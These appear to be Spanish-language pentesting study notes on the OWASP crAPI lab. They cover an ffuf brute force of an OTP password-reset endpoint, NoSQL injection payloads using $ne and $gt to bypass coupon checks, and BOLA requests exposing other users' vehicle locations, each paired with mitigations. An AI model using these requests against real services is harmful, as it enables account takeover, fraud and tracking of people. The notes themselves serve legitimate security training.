

# Despliegue de laboratorio

Para desplegar este entorno, podemos utilizar Docker:

Una vez levantado el laboratorio, podemos utilizar Postman para interactuar con la API e identificar vulnerabilidades.

Acción:

```bash
git clone https://github.com/OWASP/crAPI
cd deploy
cd docker
docker-compose pull
docker-compose -f docker-compose.yml --compatibility up -d
```

Resultado:

```bash
CONTAINER ID   IMAGE                          COMMAND                  CREATED              STATUS                            PORTS                                                                                                NAMES
918367f7a6cb   crapi/crapi-web:latest         "/bin/sh -c /etc/ngi…"   5 seconds ago        Up 4 seconds (health: starting)   127.0.0.1:8888->80/tcp, 127.0.0.1:30080->80/tcp, 127.0.0.1:8443->443/tcp, 127.0.0.1:30443->443/tcp   crapi-web
84acf5a3aa05   crapi/crapi-workshop:latest    "/bin/sh -c /app/run…"   21 seconds ago       Up 20 seconds (healthy)                                                                                                                crapi-workshop
c12d85e52818   crapi/crapi-community:latest   "/bin/sh -c /app/main"   37 seconds ago       Up 36 seconds (healthy)           6060/tcp                                                                                             crapi-community
4bfaa6474dc3   crapi/crapi-identity:latest    "/entrypoint.sh"         About a minute ago   Up About a minute (healthy)       10001/tcp                                                                                            crapi-identity
1671cb00b66d   crapi/mailhog:latest           "MailHog"                About a minute ago   Up About a minute (healthy)       1025/tcp, 127.0.0.1:8025->8025/tcp                                                                   mailhog
bd768b0989e0   mongo:4.4                      "docker-entrypoint.s…"   About a minute ago   Up About a minute (healthy)       27017/tcp                                                                                            mongodb
64bad5914e61   crapi/gateway-service:latest   "/app/server"            About a minute ago   Up About a minute (healthy)       443/tcp                                                                                              api.mypremiumdealership.com
f73a902c0b56   postgres:14                    "docker-entrypoint.s…"   About a minute ago   Up About a minute (healthy)       5432/tcp                                                                                             postgresdb
```

*Extra:* para detener y retomar

```
docker-compose stop
docker-compose start
```

Acción: en el navegador señalamos en el DevTools la opción de filtrado `XHR`



Acción: desde [[Postman]] podemos ir enumerando la API para trabajar organizadamente

---

Acción: probamos a cambiar la contraseña de un usuario el cual conocemos su correo y sabemos el patrón que solicita la API que es un código OTP

```bash
ffuf -u http://localhost:8888/identity/api/auth/v2/check-otp -w /usr/share/SecLists/Fuzzing/4-digits-0000-9999.txt -p 1 -d '{"email":"metahumo@mail.com","otp":"FUZZ","password":"Baleares123!"}' -H 'Content-Type:application/json' -fc 500
```

Resultado:

```bash
3508                    [Status: 200, Size: 39, Words: 2, Lines: 1, Duration: 131ms]
```

Explicación: con ffuf extraemos el código OTP y directamente realizamos la petición, por lo que al probar el logueo con el cambio de contraseña logramos acceso.

---


## Ejemplo de Inyección NoSQL en Validación de Cupones usando Postman

En este documento mostramos cómo realizar una inyección NoSQL contra un sistema que valida cupones de descuento. Usaremos **Postman** para enviar solicitudes maliciosas y observar si es posible evadir la lógica de validación legítima.

## Escenario simulado

Tenemos una API REST que expone el siguiente endpoint:

```

POST /api/cupones/validar

````

Esta API espera recibir un cuerpo JSON con el código de cupón que queremos validar. Un ejemplo de uso legítimo sería:

```json
{
  "cupon": "DESCUENTO10"
}
````

En el backend, se ejecuta una consulta MongoDB como esta:

```javascript
db.cupones.findOne({ cupon: req.body.cupon });
```

## Objetivo

Queremos simular un ataque en el que podamos hacer que la validación sea exitosa sin conocer un código de cupón válido. Para ello, intentaremos inyectar una consulta que siempre devuelva `true`.

## Petición legítima

- Método: `POST`
    
- URL: `http://localhost:3000/api/cupones/validar`
    
- Headers:
    
    - `Content-Type: application/json`
        
- Cuerpo:
    

```json
{
  "cupon": "DESCUENTO10"
}
```

## Petición maliciosa (inyección NoSQL)

A continuación, probamos una inyección simple con el operador `$ne` (not equal) de MongoDB:

- Método: `POST`
    
- URL: `http://localhost:3000/api/cupones/validar`
    
- Headers:
    
    - `Content-Type: application/json`
        
- Cuerpo:
    

```json
{
  "cupon": { "$ne": null }
}
```

Esta consulta hará que MongoDB devuelva cualquier documento donde `cupon` no sea `null`, lo cual normalmente significa que devuelve el primer cupón disponible, sin necesidad de conocer su valor.

## Resultado esperado

Si el backend no valida correctamente los tipos de datos y permite esta inyección, obtendremos una respuesta positiva, como si el cupón fuera válido, aunque no hayamos proporcionado un código real.

## Consecuencias

- Validación de cupones sin autorización.
    
- Posibilidad de aplicar descuentos no válidos.
    
- Pérdidas económicas para la empresa.
    
- Riesgo de que la técnica se escale a otros endpoints.
    

## Medidas de mitigación

- Validar que el valor de `cupon` sea una cadena y no un objeto.
    
- Usar validadores de entrada como `Joi`, `express-validator` o `zod`.
    
- Rechazar cualquier valor que no cumpla con el esquema esperado.
    
- Escapar o sanear cualquier entrada antes de incluirla en una consulta.
    

## Variante alternativa

Podemos intentar usar otro operador como `$gt` (greater than), que también fuerza una condición verdadera:

```json
{
  "cupon": { "$gt": "" }
}
```

Esto también puede dar lugar a una validación exitosa si no se realiza una validación estricta del tipo y estructura del valor.

---

## Ejemplo de BOLA (Broken Object Level Authorization) en Consulta de Vehículo Alquilado

En este ejemplo mostramos cómo explotar una vulnerabilidad de tipo BOLA para acceder a la información de localización de un vehículo alquilado que no nos pertenece. Utilizaremos **Postman** para enviar solicitudes manipuladas y observar si podemos acceder a datos de otros usuarios sin autorización.

### Escenario simulado

Supongamos que estamos usando una aplicación para alquilar vehículos, y que cada usuario puede ver la localización de su vehículo actual. Para ello, la aplicación realiza una solicitud a un endpoint como este:

```

GET /api/vehiculos/{id}

````

La respuesta incluye datos como:

- Identificador del vehículo.
- Usuario que lo tiene alquilado.
- Coordenadas de localización (latitud, longitud).

### Objetivo

Queremos comprobar si el servidor verifica correctamente que el vehículo solicitado pertenece al usuario autenticado. Si no es así, podemos modificar el ID del vehículo en la URL y acceder a información privada de otros usuarios.

### Suposiciones

- El usuario actual tiene alquilado un vehículo con ID `123`.
- Se nos proporciona un token válido que representa a ese usuario.
- Vamos a intentar acceder al vehículo con ID `124`, que pertenece a otro usuario.

### Solicitud legítima

- Método: `GET`  
- URL: `http://localhost:3000/api/vehiculos/123`  
- Headers:
  - `Authorization: Bearer <token_valido_del_usuario>`  
- Respuesta esperada:

```json
{
  "vehiculo_id": 123,
  "usuario_id": 42,
  "latitud": 40.4168,
  "longitud": -3.7038
}
````

### Solicitud maliciosa (BOLA)

Vamos a cambiar el ID del vehículo manualmente en la URL:

- Método: `GET`
    
- URL: `http://localhost:3000/api/vehiculos/124`
    
- Headers:
    
    - `Authorization: Bearer <token_valido_del_usuario>`
        
- Respuesta (si el sistema es vulnerable):
    

```json
{
  "vehiculo_id": 124,
  "usuario_id": 7,
  "latitud": 41.3874,
  "longitud": 2.1686
}
```

Esto indicaría que hemos accedido a la ubicación de otro vehículo alquilado por otro usuario, lo cual representa una grave brecha de privacidad.

### Resultado esperado

Si no hay control de autorización a nivel de objeto, el backend devolverá la información del recurso solicitado sin validar si el usuario actual tiene permiso para acceder a él.

### Consecuencias

- Acceso no autorizado a la ubicación de otros vehículos.
    
- Violación de privacidad de los usuarios.
    
- Riesgo potencial de vigilancia o seguimiento de personas.
    
- Incumplimiento de normativas como el RGPD.
    


# BOLA mediante filtrado insuficiente de datos en respuesta de comentarios

En este documento analizamos un escenario donde, al inspeccionar las respuestas JSON del frontend (por ejemplo, en la consola de desarrollador), se expone información sensible del backend, como el `vehiculo_id` de otros usuarios. Esto nos permite aprovechar otro endpoint vulnerable a BOLA y obtener la localización de vehículos ajenos.

## Escenario general

La aplicación permite a los usuarios dejar comentarios sobre su experiencia con un vehículo alquilado. Estos comentarios se consultan mediante un endpoint tipo:

```

GET /api/comentarios

````

En la interfaz, solo se muestran el texto del comentario y el nombre del usuario. Sin embargo, al inspeccionar la respuesta en las herramientas de desarrollo (DevTools), observamos que se incluyen más datos de lo necesario.

### Ejemplo de respuesta JSON de `/api/comentarios`

```json
[
  {
    "comentario": "Todo fue perfecto.",
    "usuario_nombre": "Juan",
    "usuario_id": 7,
    "vehiculo_id": 124,
    "timestamp": "2024-12-01T12:34:00Z"
  },
  {
    "comentario": "Buen estado del coche.",
    "usuario_nombre": "Ana",
    "usuario_id": 11,
    "vehiculo_id": 125,
    "timestamp": "2024-12-01T13:05:00Z"
  }
]
````

## Problema detectado

Aunque el frontend no muestra el `vehiculo_id`, este valor está incluido en la respuesta. Esto nos da un identificador válido de un vehículo que no es nuestro.

## Objetivo

Usar el `vehiculo_id` extraído de los comentarios para consultar directamente el endpoint de localización de vehículos:

```
GET /api/vehiculos/{id}
```

Si este endpoint no valida correctamente que el vehículo pertenece al usuario autenticado, se produce una vulnerabilidad BOLA.

## Solicitud maliciosa

Una vez identificado un `vehiculo_id` (por ejemplo, 124), enviamos la siguiente solicitud desde Postman:

- Método: `GET`
    
- URL: `http://localhost:3000/api/vehiculos/124`
    
- Headers:
    
    - `Authorization: Bearer <token_valido_de_otro_usuario>`
        

### Posible respuesta (si hay vulnerabilidad):

```json
{
  "vehiculo_id": 124,
  "usuario_id": 7,
  "latitud": 41.3874,
  "longitud": 2.1686
}
```

## Resultado

Hemos accedido a la ubicación del vehículo alquilado por otro usuario, usando un ID obtenido pasivamente a través de una respuesta JSON sobreexpuesta.

## Consecuencias

- Exposición de datos sensibles (ubicación, IDs de usuarios o vehículos).
    
- Acceso no autorizado a información privada.
    
- Posibles ataques de seguimiento, acoso o suplantación.
    
- Pérdida de confianza y posibles sanciones legales por incumplimiento de normativas de privacidad.
    

## Recomendaciones

### Para evitar la sobreexposición de datos

- Limitar la información que devuelve el backend a solo los campos necesarios.
    
- Crear DTOs (Data Transfer Objects) o modelos de respuesta específicos para cada caso de uso.
    
- No enviar identificadores internos sensibles si no son estrictamente necesarios.
    

### Para mitigar BOLA

- Verificar siempre que el recurso accedido pertenece al usuario autenticado.
    
- Aplicar lógica como esta en el backend:
    

```javascript
// Express.js ejemplo
const vehiculo = await db.vehiculos.findOne({
  id: req.params.id,
  usuario_id: req.user.id
});
if (!vehiculo) return res.status(403).json({ error: "Acceso no autorizado" });
```

## Conclusión

Este caso representa una vulnerabilidad realista y común, donde un exceso de datos en una respuesta aparentemente inocua permite escalar a un ataque BOLA. Debemos revisar tanto el control de acceso como el principio de mínima exposición de datos en todas nuestras API.

